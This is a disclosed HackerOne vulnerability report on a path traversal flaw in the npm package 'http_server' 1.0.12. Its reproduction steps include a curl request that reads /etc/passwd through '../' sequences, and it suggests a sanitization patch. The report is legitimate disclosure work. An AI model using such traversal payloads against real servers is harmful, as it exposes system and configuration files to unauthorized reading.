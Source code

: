 # [http_server] Path Traversal allowing to read any files on the server

## Report Details
- **Report ID**: 579523
- **URL**: https://hackerone.com/reports/579523
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-05-13T20:26:37.821Z
- **Disclosed**: 2020-09-24T19:21:03.956Z

## Reporter
- **Username**: lightangel1412
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report path traversal vulnerability in module "http_server"
It allows an attacker to read any files even system files via this path traversal vulnerability.

# Module

module name: http_server
version: 1.0.12
npm page: https://www.npmjs.com/package/http_server

# Module Description
一个静态服务器 means "a static server"

# Module Stats
[14] downloads in the last week
[116] downloads in the last month

# Vulnerability

##Vulnerability Description
Path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files.

##Steps To Reproduce:
- Install the module
```
npm install -g http_server
```

- Run 'http_server in "~/Desktop" directory :
```
root@kali:~/Desktop# http_server
server running is :http://localhost:8888
```
{F489688}

- Use cURL to access etc/passwd file:
```
$ curl --path-as-is --url 'http://localhost:8888/../../../../../etc/passwd'
```
{F489687}

##Patch
User input should be properly sanitized and filtered to remove dot-dot-slash (../)” sequences and its variations in path. 

##Supporting Material/References:
- Linux kali 4.15.0-kali2-amd64
- node 10.15.3
- npm 6.9
- Firefox ESR 52.7.3 (64-bit)

##Wrap up
- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

It could have enabled an attacker to view system files and leverage attacks like remote code execution and so on.

## Attachments
- http_server_-_PathTraversal.PNG
- http_server_-_PathTraversal_0.PNG
